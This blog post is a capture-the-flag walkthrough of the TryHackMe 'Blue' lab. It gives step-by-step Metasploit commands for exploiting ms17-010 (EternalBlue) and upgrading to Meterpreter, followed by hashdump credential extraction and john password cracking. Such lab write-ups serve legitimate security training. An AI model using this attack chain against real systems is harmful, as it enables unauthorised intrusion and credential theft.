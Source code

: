 ```yaml
---
layout: post
title: "Blue"
date: 2021-04-14
ctf: true
excerpt: "Walkthrough for Blue on TryHackMe"
tags: [ms17-010, metasploit, Windows, eternalblue, nmap NSE]
comments: false
---
```


# Blue

Blue is the second room in the Offensive Security path on TryHackMe. Below is my walkthrough for the tasks for this room.

<details><summary><strong>Task 1 Hints</strong></summary>
<ul>
    <li>Have you deployed the machine and clicked on complete?
    <li>What popular port scanner can be used to answer the 2nd and 3rd questions for this task?
</ul>
</details>

<details><summary><strong>Task 2 Hints</strong></summary>
<ul>
    <li>Follow the information mentioned and launch Metasploit
    <li>How do you search for exploits in Metasploit?
    <li>What would you search for in this case?
</ul>
</details>

<details><summary><strong>Task 3 Hints</strong></summary>
<ul>
    <li>What post exploitation modules can be used to convert a TCP Shell to Meterpreter (Google it!)
    <li>Make sure you set the appropriate options!
    <li>Make sure your migrate step utilizes the correct system architecture.
</ul>
</details>

<details><summary><strong>Task 4 Hints</strong></summary>
<ul>
    <li>Two popular tools can be used to crack this password with a rather popular password list.
    <li>Make sure to indicate the correct hash format to crack the password.
</ul>
</details>

<details><summary><strong>Task 5 Hints</strong></summary>
<ul>
    <li>Follow the hints provided to uncover the 3 flags!
</ul>
</details>


## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1

#### Question 1

No answer is needed, just deploy the machine!

#### Question 2

![Blue Task 1 Question 2](/assets/img/Blue1.png)

This can easily be answered by running:

 **`threader3000`**

This will supply all of the open TCP ports on the box:

![Blue threader3000](/assets/img/Blue2.png)

Based on the results, the answer is 3 open ports (135, 139, 445).



#### Question 3

![Blue Task 1 Question 3](/assets/img/Blue3.png)

Let's run nmap on this box with the following parameters:

**`nmap -p135,139,445 --script vuln <victim ip>`**

This will run the vuln script in nmap and return results based on vulnerabilities uncovered.

![Blue nmap vuln script](/assets/img/Blue6.png)

In the output above, you will see both the CVE for this vulnerability (**CVE-2017-0143**) and the name designation from Microsoft (**ms17-010**), which is the answer to this question.

### Task 2

#### Question 1

No answer needed, just launch Metasploit with:

 **`msfconsole`**

#### Question 2

![Blue Task 2 Question 2](/assets/img/Blue7.png)

Once Metasploit has been launched, run the following to see all the exploits for the ms17-010 vulnerability:

**`search ms17-010`**

Several results will appear as shown below:

![Blue metasploit search ms17-010](/assets/img/Blue8.png)

The answer to this question is option 2 on this list **exploit/windows/smb/ms17_010_eternalblue**.

#### Question 3

The next question asks you which option needs to be set for this exploit:

![Blue Task 2 Question 3](/assets/img/Blue9.png)

This can be found by running the following within Metasploit:

**`show options`**

![Blue metasploit show options](/assets/img/Blue10.png)

The answer is **RHOSTS** as that is the only option that is not set by default. Set RHOSTS by using:

**`set RHOSTS <victim ip>`**

and then set your LHOST to your VPN IP address by running the following:

**`set LHOSTS tun0`**

![Blue metasploit set rhosts lhost](/assets/img/Blue11.png)

#### Question 4

With this set, type in either:

**`run`** or **`exploit`**

You should see output similar to that shown below:

![Blue metasploit eternalblue exploit](/assets/img/Blue12.png)



#### Question 5 

No answer is needed for this task. This exploit doesn't work 100% of the time so it is letting you know you may have to reboot the VM and try again.

### Task 3

#### Question 1

![Blue Task 3 Question 1](/assets/img/Blue14.png)

As mentioned above, background your shell with:

**`CTRL + Z`**  and then answer **`y`** to the prompt to background your session.

![Blue metasploit background session 1](/assets/img/Blue13.png)

For the post exploitation module, I did some Googling on shell to meterpreter, and came across [this](https://null-byte.wonderhowto.com/how-to/upgrade-normal-command-shell-metasploit-meterpreter-0166013/) article, which provides the answer to this question (**post/multi/manage/shell_to_meterpreter**).

![Blue metasploit post exploitation shell to meterpreter](/assets/img/Blue15.png)

#### Question 2

![Blue Task 3 Question 2](/assets/img/Blue16.png)

This next section asks you which option we're required to change. Let's run:

**`show options`** and you will notice a **SESSION** field. 

![Blue metasploit shell to meterpreter show options](/assets/img/Blue17.png)

#### Question 3

This needs to be modified to match the session number of your backgrounded session. Set this with:

**`set SESSION <session #>`**

![Blue metasploit set session](/assets/img/Blue19.png)

Once done, use either:

 **`run`** 

or

**`exploit`** 

to gain a Meterpreter shell.

#### Question 4

No answer needed, if this doesn't work, you might have to redo all of the prior steps in Metasploit.

#### Question 5

In order to know which session to select, run **sessions -l** to list all current active sessions in Metasploit.

![Blue metasploit list active sessions](/assets/img/Blue20.png)

You will notice 2 sessions: 1 with your reverse TCP shell, and another one with your Meterpreter shell. In this case, run the following to interact with the Meterpreter shell:

**`sessions -i 2`**

#### Question 6

This question asks you to run:

**`shell`**

to launch a shell on the remote machine followed by:

**`whoami`**

to confirm you are the NT AUTHORITY\SYSTEM user.

![Blue metasploit interact with session](/assets/img/Blue21.png)

#### Question 7

Next, let's background this shell with:

**`CTRL+Z`** followed by **`y`**

Next, run:

**`ps`**

to list processes running on the victim machine:

![Blue metasploit ps](/assets/img/Blue23.png)

#### Question 8

We are looking for a service that can be migrated to that is running as NT AUTHORITY\SYSTEM to find a process that is running as this user (as the service we are utilizing likely is not). Be mindful that the architecture of the service would need to match that of your shell (x64 in this case). This may take a few attempts to migrate to a process as it may fail. Migration is attempted with:

**`migrate <PID>`**

where PID is the process ID listed in the first column of the list from the **ps** command. A successful migration (after a few attempts) is shown below:

![Blue metasploit migrate](/assets/img/Blue24.png)

### Task 4

#### Question 1

Next, we're going to dump all the passwords on the victim machine. Follow the information provided in the question as shown below and run:

**`hashdump`**

![Blue metasploit hashdump](/assets/img/Blue25.png)

You should see output similar to that shown below, and there is one non-default user listed in this case, **Jon**.

![Blue metasploit hashdump](/assets/img/Blue26.png)

#### Question 2

![Blue Task 4 Question 2](/assets/img/Blue27.png)

Let's crack this password with **john**. First, on your attacker machine, copy the full line with the Jon user listed and echo it into a file with:

**`echo Jon:1000:....::: > hashes`**

To echo the hash into the hashes file. Next, let's run: 

**`john hashes --wordlist=/usr/share/wordlists/rockyou.txt --format=NT`**

This will attempt to crack the NT hash with the rockyou wordlist. After a couple minutes, the user's password will be displayed:

![Blue John](/assets/img/Blue28.png)

### Task 5

#### Question 1

Let's connect to this machine with Remote Desktop with **remmina**. Fill in the IP address of your victim machine once launched along with the user (**Jon**) and his password you cracked in the previous question.

![Blue Remmina rdp](/assets/img/Blue29.png)

After a couple moments, you will be presented with Jon's desktop as shown below.

![Blue Remmina Windows Desktop](/assets/img/Blue30.png)

Let's start looking for flags.

![Blue Task 5 Question 1](/assets/img/Blue31.png)

On Windows, the root of the system is typically **C:**. Let's open File Explorer and look around:

![Blue flag1](/assets/img/Blue32.png)

The first flag is located here in the flag1.txt file.

#### Question 2

![Blue Task 5 Question 2](/assets/img/Blue33.png)

This also provides a hint, this can be located at **C:\Windows\System32\config**

![Blue flag2](/assets/img/Blue34.png)

#### Question 3

![Blue Task 5 Question 3](/assets/img/Blue35.png)

The final flag is located at **C:\Users\Jon\My Documents** (as Jon is an administrator).

![Blue flag3](/assets/img/Blue36.png)

That's it! All flags have been uncovered!

</details>



